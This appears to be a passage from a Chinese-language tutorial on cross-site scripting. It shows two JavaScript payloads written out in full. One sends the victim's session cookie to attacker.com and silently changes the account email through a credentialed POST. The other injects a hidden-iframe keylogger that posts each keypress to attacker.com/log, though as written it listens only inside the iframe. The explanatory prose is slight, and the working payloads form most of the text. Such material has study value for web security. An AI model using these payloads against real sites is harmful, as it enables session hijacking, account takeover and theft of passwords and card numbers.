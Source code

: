 ```html
<script>
  // 发送会话 Cookie 到攻击者的服务器
  var img = document.createElement('img');
  img.src = 'https://attacker.com/steal?cookie=' + encodeURIComponent(document.cookie);
  document.body.appendChild(img);

  // 或者，直接修改用户信息
  var xhr = new XMLHttpRequest();
  xhr.open('POST', 'https://target.com/profile', true);
  xhr.withCredentials = true;
  xhr.setRequestHeader('Content-Type', 'application/json');
  xhr.send(JSON.stringify({email: 'hacked@example.com'}));
</script>
```

**说明**：
- 该脚本将用户的会话 Cookie 发送到攻击者的服务器。
- 同时，它还向目标网站的个人资料接口发送一个修改请求，将用户的电子邮件地址更改为攻击者指定的地址。




# 劫持用户输入
XSS（跨站脚本攻击）不仅可以用于窃取用户的 Cookie 和会话令牌，还可以用于记录用户的键盘输入。这种攻击方式通常通过注入恶意 JavaScript 代码来实现。以下是关于 XSS 如何记录键盘输入的详细分析：

### 1. 理解键盘输入记录

**键盘输入记录**是指通过恶意脚本捕捉用户在网页上的键盘操作，包括输入的文本、点击的按键等。这可以用来窃取用户的敏感信息，如密码、信用卡号码、个人信息等。

### 2. XSS 记录键盘输入的过程

#### 步骤 1：注入恶意脚本

攻击者通过 XSS 漏洞在目标网站上注入恶意 JavaScript 代码。例如：

```html
<script>
  // 创建一个隐藏的 iframe 来记录键盘输入
  var iframe = document.createElement('iframe');
  iframe.style.display = 'none';
  document.body.appendChild(iframe);

  // 在 iframe 中注入脚本
  var iframeDoc = iframe.contentDocument || iframe.contentWindow.document;
  iframeDoc.open();
  iframeDoc.write(`
    <script>
      // 监听键盘事件
      document.onkeypress = function(e) {
        var key = e.key || String.fromCharCode(e.keyCode || e.which);
        // 发送按键信息到攻击者的服务器
        fetch('https://attacker.com/log', {
          method: 'POST',
          headers: {
            'Content-Type': 'application/json'
          },
          body: JSON.stringify({key: key, timestamp: Date.now()})
        });
      };
    <\/script>
  `);
  iframeDoc.close();
</script>
```